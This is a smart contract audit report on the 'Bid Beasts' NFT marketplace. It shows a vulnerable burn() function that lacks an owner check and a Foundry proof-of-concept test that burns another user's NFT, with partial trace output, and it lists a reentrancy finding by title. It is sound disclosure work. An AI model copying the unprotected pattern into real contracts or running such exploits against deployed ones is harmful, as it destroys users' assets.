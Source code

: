 # Bid Beasts
- Scope
    - BidBeasts_NFT_ERC721.sol
    - BidBeastsNFTMarketPlace.sol
- Findings
    - High: 2  
    [H-01: Anyone can call `BidBeast_NFT_ERC721.sol::burn()` and burn other user's NFT](#high-01)  
    [H-02: Wrong logic in `BidBeast_NFT_ERC721.sol::withdrawAllFailedCredits()` allows reentrancy attack and drain marketplace contract funds](#high-02)   
    - Low: 1  
    [L-01: Missing `endAuction()` function as intented in contest details](#low-01)  
    
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## <a id="high-01"></a>H-01: Anyone can call `BidBeast_NFT_ERC721.sol::burn()` and burn other user's NFT

### Summary
`BidBeast_NFT_ERC721.sol::burn()` does not verify if the caller is the owner of the NFT, and allows anyone to burn other user's NFT.

### Vulnerability Details
```
function burn(uint256 _tokenId) public {
    _burn(_tokenId);
    emit BidBeastsBurn(msg.sender, _tokenId);
}
```

### Impact/Proof of Concept
```
function test_anyoneCanBurnOtherUserNFT() public {
    // Owner mints NFT to seller
    vm.startPrank(OWNER);
    uint256 new_token_id = nft.mint(SELLER);
    vm.stopPrank();
    vm.assertEq(nft.ownerOf(new_token_id), SELLER, "SELLER IS NOT OWNER OF NFT");
    
    // Assuming another user (who is not owner of NFT)
    vm.startPrank(BIDDER_1);
    nft.burn(new_token_id);
    vm.stopPrank();
    
    // We should expect a revert when we call ownerOf, as NFT is burned and it should be non existent
    vm.expectRevert("ERC721NonexistentToken(0)");
    console.log(nft.ownerOf(new_token_id));
}
```
Results
```diff
[PASS] test_anyoneCanBurnOtherUserNFT() (gas: 76730)
Logs:
  0x0000000000000000000000000000000000000000

Traces:
  [101178] BidBeastsNFTMarketTest::test_anyoneCanBurnOtherUserNFT()
    ├─ [0] VM::startPrank(ECRecover: [0x0000000000000000000000000000000000000001])
```